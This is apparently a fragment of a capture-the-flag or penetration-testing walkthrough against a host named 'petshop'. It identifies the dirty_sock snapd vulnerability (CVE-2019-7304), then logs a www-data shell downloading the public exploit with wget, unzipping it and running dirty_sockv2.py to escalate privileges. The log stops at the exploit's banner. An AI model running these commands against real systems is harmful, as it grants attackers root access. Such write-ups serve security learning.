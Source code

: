 #### Focus

```sh
[+] [CVE-2019-7304] dirty_sock

   Details: https://initblog.com/2019/dirty-sock/
   Exposure: less probable
   Tags: ubuntu=18.10,mint=19
   Download URL: https://github.com/initstring/dirty_sock/archive/master.zip
   Comments: Distros use own versioning scheme. Manual verification needed.
```

#### Exploitation

```sh
www-data@petshop:/tmp$ wget https://github.com/initstring/dirty_sock/archive/master.zip
ter.ziptps://github.com/initstring/dirty_sock/archive/mast
--2021-04-27 00:56:14--  https://github.com/initstring/dirty_sock/archive/master.zip
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/initstring/dirty_sock/zip/master [following]
--2021-04-27 00:56:14--  https://codeload.github.com/initstring/dirty_sock/zip/master
Resolving codeload.github.com (codeload.github.com)... 140.82.121.9
Connecting to codeload.github.com (codeload.github.com)|140.82.121.9|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/zip]
Saving to: 'master.zip'

master.zip              [ <=>                ]  21.86K  --.-KB/s    in 0.02s   

2021-04-27 00:56:14 (983 KB/s) - 'master.zip' saved [22384]

www-data@petshop:/tmp$ unzip master.zip
unzip master.zip
Archive:  master.zip
c68e35ae3eb7f49a398c7d7f35bb920c79dc9b0e
   creating: dirty_sock-master/
   creating: dirty_sock-master/.github/
   creating: dirty_sock-master/.github/ISSUE_TEMPLATE/
  inflating: dirty_sock-master/.github/ISSUE_TEMPLATE/bug_report.md  
  inflating: dirty_sock-master/LICENSE  
  inflating: dirty_sock-master/README.md  
  inflating: dirty_sock-master/dirty_sockv1.py  
  inflating: dirty_sock-master/dirty_sockv2.py  
www-data@petshop:/tmp$ cd dirty_sock-master/
cd dirty_sock-master/
www-data@petshop:/tmp/dirty_sock-master$ ls
ls
LICENSE  README.md  dirty_sockv1.py  dirty_sockv2.py
www-data@petshop:/tmp/dirty_sock-master$ python3 dirty_sockv2.py
python3 dirty_sockv2.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


```